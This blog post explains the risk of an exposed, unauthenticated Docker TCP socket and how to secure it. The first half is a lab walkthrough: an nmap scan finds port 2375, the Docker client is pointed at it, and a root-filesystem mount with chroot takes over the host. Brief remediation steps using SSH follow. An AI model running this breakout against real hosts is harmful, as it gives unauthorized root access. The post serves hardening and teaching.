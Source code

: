 ```yaml
---
layout: post
title: 'Securely Accessing Remote Docker Host'
date: '2021-08-16'
description: 'The Docker TCP socket by default doesnt support any authentication. and, if the Docker socket is exposed on an external interface, anyone can connect to it and issue docker commands. This can even lead to host takeover if the Docker daemon is running as root.'
coverimage: Securely_Accessing_Remote_Docker_Host_HjjWMVv.jpg
tags: docker
published: true
posttype: article
categories: blog
---
```

Docker is running out box without the socket set
```
evilsaint@marvel.lab:~# docker ps
Cannot connect to the Docker daemon at unix:///var/run/docker.sock. Is the docker daemon running?

evilsaint@marvel.lab:~# docker images
Cannot connect to the Docker daemon at unix:///var/run/docker.sock. Is the docker daemon running?
```


Nmap Scan showing exposed Docker API port. 
```
nmap -sSV -p- 192.190.96.3
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-17 00:34 IST
Nmap scan report for docker-host (192.190.96.3)
Host is up (0.000015s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
2375/tcp open  docker     Docker 19.03.1 (API 1.40)
2376/tcp open  tcpwrapped
MAC Address: 02:42:C0:BE:60:03 (Unknown)
Service Info: OSs: Linux, linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.11 seconds
````


Define the DOCKER_HOST environment variable to point to this remote TCP socket.
```
export DOCKER_HOST=192.190.96.3:2375
```

Now we can mount the image to the host volume and do a host breakout if permissions are in place
```
evilsaint@marvel.lab:~# docker run -it -v /:/host ubuntu:18.04 bash
root@6a01ea2ace07:/# chroot /host
#
```

## How can we secure this 

I will SSH into the remote host to perform the fix 

Let us kill the docker
```
ps -ef | grep docker
```

```
kill <pid>
```

Restart the docker service
```
service docker start
```

Now we export the docker host to be accessible over SSH
```
root@localhost:~# export DOCKER_HOST=ssh://root@192.190.96.3
```